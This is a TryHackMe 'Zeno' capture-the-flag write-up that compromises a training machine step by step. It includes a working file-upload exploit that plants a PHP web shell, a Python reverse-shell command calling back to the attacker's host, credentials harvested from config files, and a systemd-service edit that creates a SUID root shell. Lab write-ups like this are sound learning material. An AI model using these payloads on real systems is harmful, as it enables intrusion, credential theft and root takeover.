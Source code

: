 ```yaml
---
layout: post
title:  "Zeno"
categories: [tryhackme]
tags: [linux, rce, upload, vi, service, linpeas]
---
```


You can find this machine here : `https://tryhackme.com/room/zeno`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn zeno.thm -p-

PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```


```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn zeno.thm -p-

PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -sS -sV zeno.thm -p12340

PORT      STATE SERVICE VERSION
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```


### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ gobuster dir -u http://zeno.thm:12340/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowerca
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zeno.thm:12340/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2022/02/25 20:00:44 Starting gobuster in directory enumeration mode
===============================================================
/rms                  (Status: 301) [Size: 239] [--> http://10.10.190.102:12340/rms/]
```

![image]( /assets/img/zeno/1.PNG)

### Restaurant Management System 1.0 - Remote Code Execution


```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ searchsploit Restaurant Management System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Restaurant Management System 1.0 - Remote Code Execution                         | php/webapps/47520.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ locate php/webapps/47520.py
/usr/share/exploitdb/exploits/php/webapps/47520.py
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/47520.py .
```

- Modified Script

```python
import requests
import sys

url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://zeno.thm:12340/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")
```

### Upload The Backdoor

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ python3 47520.py http://zeno.thm:12340/rms/
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://zeno.thm:12340/rms/images/reverse-shell.php
```

### Reverse Shell

- Browser

```bash
http://zeno.thm:12340/rms/images/reverse-shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.18.45.56%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

- Listener

```bash
┌──(kali㉿Zeus)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.18.45.56] from (UNKNOWN) [10.10.190.102] 51022
sh-4.2$
```

![image]( /assets/img/zeno/2.PNG)

### Database Credentials

Credentials Location : `/var/www/html/rms/connection/config.php`

```php
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

![image]( /assets/img/zeno/3.PNG)

### LinPeas

![image]( /assets/img/zeno/4.PNG)

- Found Possible Credentials

![image]( /assets/img/zeno/5.PNG)

```
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=Frobj<REMOVED>anJa,domain=localdomain,soft 0 0
```

- Edward Credentials

```
edward : FrobjoodAdkoonceanJa
```

### User Owned

![image]( /assets/img/zeno/6.PNG)

### Root PrivEsc - Writable Service

```bash
[edward@zeno ~]$ sudo -l

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
[edward@zeno ~]$ 
```

- Run LinPeas as edward

```bash
/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service
```

![image]( /assets/img/zeno/7.PNG)


- Old `zeno-monitoring.service`

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

![image]( /assets/img/zeno/8.PNG)


- New `zeno-monitoring.service` using vi


1. vi zeno-monitoring.service
2. Go to ExecStart line using arrows
3. Press i for INSERT
4. Replace the `/root/zeno-monitoring.py` with the `/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"`
6. Press ESC 2 or more times
7. Press :x!

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"

[Install]
WantedBy=multi-user.target
```

### Root Owned

Resource : `https://book.hacktricks.xyz/linux-unix/privilege-escalation#cron-path`

```bash
[edward@zeno system]$ sudo -u root /usr/sbin/reboot
```

![image]( /assets/img/zeno/10.PNG)